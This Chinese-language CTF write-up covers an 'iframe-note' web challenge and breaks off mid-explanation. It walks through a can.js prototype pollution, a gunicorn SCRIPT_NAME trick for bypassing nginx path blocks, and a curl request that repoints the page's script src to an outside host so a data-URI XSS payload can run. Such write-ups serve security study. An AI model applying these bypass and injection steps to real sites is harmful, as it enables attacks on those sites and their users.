 ``` html
    axios.get(`/iframe/${encodeURIComponent(qs.id)}`)
    .then(res => {
      if (res.data.error) {
        alert("no iframe found with that id!");
        return;
      }

      if (!res.data.url.toLowerCase().startsWith("http")) {
        alert("invalid url");
        return;
      }

      document.querySelector("#name").textContent = res.data.name;
      document.querySelector("#iframe").src = res.data.url;
      document.querySelector("#iframe").style = res.data.style;
    });
  }
</script>
```

後端用 Flask + gunicorn 渲染出上面這個網頁。

can.js 有個 prototype pollution 的漏洞，就算有做了檢查還是可以用 URL encode 繞過，但問題是有了 pollution 之後可以幹嘛。

前端乍看之下就是 `document.querySelector("#iframe").src = res.data.url` 這段最可疑了，但是這邊需要能控制 server 的 response，但是 server 那邊有做檢查，因此 data.url 只能是 http 開頭。

最後的解法是跟 axios、bfcache 還有 gunicorn 的行為有關，gunicorn 會根據 header 裡面的 `script_name` 來決定最後的 path，以 [Gunicorn's handling of PATH_INFO and SCRIPT_NAME can lead to security issues when placed behind a proxy #2650](https://github.com/benoitc/gunicorn/issues/2650) 裡面給的範例來說：

```python
requests.get(URL+'/REMOVED/admin/something/bad',
             headers={'script_name':'REMOVED/'})
```

如果前面有個 nginx 把所有 /admin 開頭的請求都擋掉，這時我們可以發送一個 /REMOVED/admin 的請求再搭配 script_name 是 REMOVED/，nginx 會通過，但是到 gunicorn 的時候就會把 path 解析為 /admin，直接繞過了前面的 nginx 檢查。

而這題會用到這個行為的地方在：

```
<script src="{{ url_for('static', filename='axios.min.js') }}"></script>
```

如果你執行 `curl https://iframe-note.be.ax////example.com/view -H "SCRIPT_NAME: //example.com`，那最後 path 是 /view，但是 base URL 會變，渲染的結果是：

```html
<script src="//example.com/static/axios.min.js"></script>
```

就能夠直接控制頁面上的 src。

作者可能懶得弄一個 instance 來 host payload，因此直接用了 data URI，把 script 變成 `<script src="data:text/javascript,{XSS}">`

因為要達成這個結果需要在請求中傳送 header，所以需要用到 bfcache，流程是：
